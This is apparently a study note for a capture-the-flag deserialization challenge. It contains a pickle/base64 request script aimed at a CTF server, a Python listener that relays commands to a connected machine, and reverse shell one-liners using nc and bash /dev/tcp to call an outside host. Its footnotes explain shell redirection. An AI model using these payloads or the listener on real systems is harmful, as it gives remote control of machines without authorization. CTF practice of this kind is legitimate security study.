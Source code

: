 # python string attack
hint: deserialization


1. normal post:
```py
import pickle
import requests
import base64


def normal_usage(debug=True):
    '''
    this gets accepted by the import api
    '''
    print('normal layout:\n')
    url = 'http://ctf.adl.tw:12004/api/import'
    my_layout = [
        {'id': 'bocchi', 'left': 350, 'top': 180}
        
    ]
    print("typeof mylayout:",type(my_layout))
    my_layout=pickle.dumps(my_layout)
    my_layout=base64.b64encode(my_layout)
    my_layout=str(my_layout,'utf-8')
    print(my_layout)
    if debug:return
    myobj={'layout':my_layout}

    r = requests.post(url, json = myobj)
    
    return
```



2. how to listen to a port on windows
```py
import socket, sys, time

def listen(ip,port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((ip, port))
    s.listen(1)
    print("Listening on port " + str(port))
    conn, addr = s.accept()
    print('Connection received from ',addr)
    while True:
        #Receive data from the target and get user input
        ans = conn.recv(1024).decode()
        sys.stdout.write(ans)
        command = input()

        #Send command
        command += "\n"
        conn.send(command.encode())
        time.sleep(1)

        #Remove the output of the "input()" function
        sys.stdout.write("\033[A" + ans.split("\n")[-1])

listen("127.0.0.1",8081)#port listen

```
3. reverse shell payload
- if nc is available
```sh
mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.25 9999 >/tmp/f
```
- if there is no nc
```sh
bash &>/dev/tcp/DEST_IP/DEST_PORT <&1
```
- If commands are running in something like sh
```sh
bash -c "bash &>/dev/tcp/DEST_IP/DEST_PORT <&1"
#this command starts a bash shell, then redirects stdout+stderr to the dest_ip:dest_port, then redirects the stdout into bash as input.
```
# Footnotes:
##  file descriptor numbers
    - 0：Standard Input (STDIN)，預設為鍵盤輸入值
    - 1：Standard Output (STDOUT)，預設為終端機螢幕顯示輸出
    - 2：Standard Error (STDERR)，預設為終端機螢幕顯示輸出
## &>name
redirect stdout and stderr to the file name 
## <
A less-than sign (<) represents input redirection. On the other hand, a greater than sign (>) is used for the output redirection. “<” and “>” are also called angled brackets.
For example:
```bash
some_commnand < some_file
```
## Difference between “>” and “>>” in Linux
    - “>” overwrites an already existing file or a new file is created providing the mentioned file name isn’t there in the directory. 
    - “>>” operator appends an already present file or creates a new file if that file name doesn’t exist in the directory. 
## How to enable /dev/tcp in bash?
